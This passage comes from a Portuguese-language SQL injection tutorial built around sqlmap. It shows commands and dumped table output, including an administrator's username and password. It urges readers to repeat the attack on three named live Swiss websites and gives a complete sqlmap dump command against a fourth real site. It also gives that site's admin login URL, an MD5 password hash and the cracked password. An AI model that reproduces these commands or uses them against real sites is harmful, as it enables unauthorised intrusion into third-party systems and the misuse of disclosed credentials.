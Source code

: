 Obs: **-D** *admin_nd* **-T** *admin*, define que queremos trabalhar com a tabela *admin* da database *admin_nd*.

Obs²: com <code>--dump</code> pedidos para o sqlmap nos mostrar o conteúdo desta tabela.

Resultado:

```
web application technology: Apache 2, PHP 5.2.17
back-end DBMS: MySQL 5.0.11
Database: admin_nd
Table: admin
[1 entry]
+------+------------------+---------------------+----------------+
| root | username  | lastname      | password    | firstname     |
+-------+-----------------+---------------------+----------------+
| 1    | admin     | Administrator | systemadmin | Administrator |
+-------+------------------+---------------------+---------------+
```

Experimente fazer esses procedimentos com esses sites:

* http://camping-boomerang.ch/en/news.php?ID=91
* http://www.audio-prestige.ch/news/news.php?id=100
* http://www.mediations.ch/cms/news.php?id=10


Exemplo mais direto: http://www.stonetouch.ch/

```
$ python sqlmap.py -u http://www.stonetouch.ch/news.php?id=9 -D c_bohnet_stonetouch-english -T wk_admin_user --dump -v0
```

Página de login: http://www.stonetouch.ch/admin/privilege.php?act=login

```
Login: admin
Hash da senha em MD5: 0192023a7bbd73250516f069df18b500
Hash quebrado: admin123
```

#### Finalizando

Apesar do SQLi ser considerado uma falha de segurança antiga, já muito conhecida pelos desenvolvedores e eliminada pelo principais frameworks de desenvolvimento Web, ainda é muito comum encontrar sistemas vulneráveis a ela. O agravante acontece com o uso de plugins vulneráveis para CMS, exemplos:

https://www.exploit-db.com/webapps/

O que nos leva a concluir que o SQL injection continua sendo um grande risco e a falha preferida dos defacers.

EOF